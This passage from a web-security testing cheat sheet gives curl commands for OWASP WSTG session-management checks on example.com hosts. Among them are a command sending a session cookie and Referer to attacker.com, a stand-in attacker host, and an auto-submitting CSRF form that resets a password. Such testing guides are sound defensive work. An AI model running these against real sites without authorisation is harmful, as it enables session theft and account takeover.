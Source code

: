 ```bash
# Test for session fixation across subdomains
curl -s -I https://sub.example.com | grep -i "set-cookie" | grep -i "domain"
```

## WSTG-SESS-04: Testing for Exposed Session Variables

**Objective**: Ensure that proper encryption is implemented for session tokens, review the caching configuration, and assess the channel and methods' security.

### Commands

```bash
# Check for session token exposure in URLs
curl -s https://example.com | grep -Eo "href=\"[^\"]*(\?|&)session=[^\"&]*\""

# Test for session token in page source
curl -s https://example.com/profile | grep -i "session\|token"

# Check for caching headers
curl -s -I https://example.com/profile | grep -i "cache-control\|pragma\|expires"

# Test for session token transmission over HTTP
curl -s -I http://example.com/profile | grep -i "set-cookie"

# Check for session ID exposure in Referer headers
# 1. Create a page with an external resource
echo '<img src="http://attacker.com/image.jpg">' > test.html
# 2. Access the page with a session cookie
# (This would be done in a browser, but here's a command-line representation)
curl -s -H "Cookie: session=TEST_SESSION" -H "Referer: https://example.com/profile?session=TEST_SESSION" http://attacker.com/image.jpg

# Test for session token exposure via GET method
curl -s "https://example.com/login?session=TEST_SESSION"
```

## WSTG-SESS-05: Testing for Cross Site Request Forgery

**Objective**: Determine whether it is possible to initiate requests on a user's behalf that are not initiated by the user, conduct URL analysis, and test for direct access to functions without any token.

### Commands

```bash
# Test for CSRF vulnerability
# 1. Create a simple HTML form that submits to the target site
cat > csrf_test.html << EOF
<html>
<body onload="document.forms[0].submit()">
<form action="https://example.com/change_password" method="POST">
<input type="hidden" name="new_password" value="hacked">
</form>
</body>
</html>
EOF

# 2. Check if the site has CSRF protections
curl -s https://example.com/profile | grep -i "csrf\|token"

# Test for missing CSRF token in forms
curl -s https://example.com/profile | grep -Eo "<form[^>]*>.*</form>" | grep -v "csrf"

# Test for CSRF token validation
```